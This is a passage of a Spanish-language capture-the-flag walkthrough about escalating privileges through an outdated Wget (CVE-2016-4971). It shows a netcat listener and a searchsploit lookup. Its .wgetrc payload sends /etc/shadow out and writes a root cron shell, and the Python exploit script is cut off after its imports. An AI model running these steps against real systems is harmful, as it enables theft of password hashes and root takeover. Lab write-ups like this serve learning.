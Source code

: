Aqui vemos que hay dos puertos el 21 y el 80.

```bash
authbind nc -nlvp 80
```

Ya vemos que la tarea sigue siendo ejecutada y vemos que la maquina 10.0.3.133 utiliza una version de Wget que esta desactualizada.

Miramos si existe un exploit para esta version

```bash
searchsploit wget 1.16
```

y vemos que hay un Arbitrary File Upload / Remote Code Execution.

```bash
searchsploit -x 40064
```

Seguimos por pasos la explicacion del exploit

1. creamos un fichero .wgetrc y le insertamos

    ```bash
    cat <<_EOF_>.wgetrc
    post_file = /etc/shadow
    output_document = /etc/cron.d/wget-root-shell
    _EOF_
    ```

1. creamos un script en python 

    ```python
    #!/usr/bin/env python

    #
    # Wget 1.18 < Arbitrary File Upload Exploit
    # Dawid Golunski
    # dawid( at )legalhackers.com
    #
    # http://legalhackers.com/advisories/Wget-Arbitrary-File-Upload-Vulnerability-Exploit.txt
    #
    # CVE-2016-4971
    #

    import SimpleHTTPServer
    import SocketServer
    import socket;
